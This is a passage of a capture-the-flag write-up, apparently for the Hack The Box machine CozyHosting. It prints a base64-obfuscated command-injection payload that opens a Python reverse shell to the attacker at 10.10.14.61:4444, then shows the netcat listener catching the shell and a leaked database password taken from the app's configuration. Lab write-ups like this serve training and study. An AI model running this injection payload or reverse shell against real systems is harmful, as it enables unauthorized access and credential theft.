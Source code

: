 ```bash
# payload ⤵️
;echo${IFS}cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjYxIiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw|base64${IFS}-d|bash${IFS};#

# base64 encoded value ⤵️ 
┌──(kali㉿kali)-[~/Downloads/HTB/CozyHosting]
└─$ echo 'cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjYxIiw0NDQ0KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw' |base64 -d 
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.61",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
{: .nolineno}
{: .nolineno}

Now when I executed it I got the response as reverse shell on nc lisener →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/CozyHosting]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.61] from (UNKNOWN) [10.10.11.230] 39534
app@cozyhosting:/app$ ls
ls
cloudhosting-0.0.1.jar
app@cozyhosting:/app$
```
{: .nolineno}
{: .nolineno}

I downloaded this file and extracted that file and I got this credentials ⤵️ 

```bash
┌──(kali㉿kali)-[~/…/HTB/CozyHosting/BOOT-INF/classes]
└─$ cat application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```
{: .nolineno}
{: .nolineno}
